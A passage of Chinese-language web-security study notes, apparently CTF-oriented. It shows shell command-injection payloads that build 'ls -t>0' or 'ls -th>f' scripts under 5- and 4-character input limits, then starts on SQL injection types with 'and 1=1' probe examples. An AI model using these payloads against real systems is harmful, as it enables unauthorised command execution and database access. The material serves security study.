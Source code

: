 倒叙新建文件名，然后通过ls -t>0，将刚才的顺序再倒序然后写入到0文件中，然后用sh将0当作脚本执行。

4. 5位可控字符下的任意命令执行

ls -t>0 超过了5位

```
>ls\\
ls>a
>\ \\
>-t\\
>\>0
ls>>a
```

这就将ls -t>0写在了a脚本中，如果要用的话直接sh a，之后写入自己的命令按照7位的逻辑写就行了。


5. 4位可控字符下的任意命令执行 参考 https://www.sohu.com/a/208155480_354899

ls -th>f 超过了4位

```
>f\>
>ht-
>sl
>dir
*>v
>rev
*v>0
cat 0
```

这就将ls -th>f写入到了脚本0当中，后面就可以直接按照7位的那样写入我们要执行的命令，最后使用sh 0执行ls -th>f，然后将命令写入了f脚本中，执行sh f即可。

注意：

> py\\这里看着是5个字符，超过了4个的限制，实际上是因为 shell环境需要输入\\产生\，但是php 代码exec时，只需要输入\即可产生\，比如 exec(“>py\”)即可。

> 这上面的所以payload均在linux终端shell里面进行操作，因此需要'\'的地方都进行了再加'\'转义，也就变成了'\\'，如果在命令注入函数里面输入时，'\'不需要用'\'转义。

## SQL注入

### 分类

#### 按照注入点类型来分类

（1）数字型注入点

许多网页链接有类似的结构`http://xxx.com/users.php?id=1`基于此种形式的注入，一般被叫做数字型注入点，缘由是其注入点`id`类型为数字，在大多数的网页中，诸如查看用户个人信息，查看文章等，大都会使用这种形式的结构传递id等信息，交给后端，查询出数据库中对应的信息，返回给前台。这一类的 SQL 语句原型大概为 `select * from 表名 where id=1`若存在注入，我们可以构造出类似与如下的sql注入语句进行爆破：`select * from 表名 where id=1 and 1=1`。

（2）字符型注入点

网页链接有类似的结构`http://xxx.com/users.php?name=admin`这种形式，其注入点`name`类型为字符类型，所以叫字符型注入点。这一类的`SQL`语句原型大概为`select * from 表名 where name='admin'`，值得注意的是这里相比于数字型注入类型的sql语句原型多了引号，可以是单引号或者是双引号。若存在注入，我们可以构造出类似与如下的sql注入语句进行爆破：`select * from 表名 where name='admin' and 1=1 ' `我们需要将这些烦人的引号给处理掉。
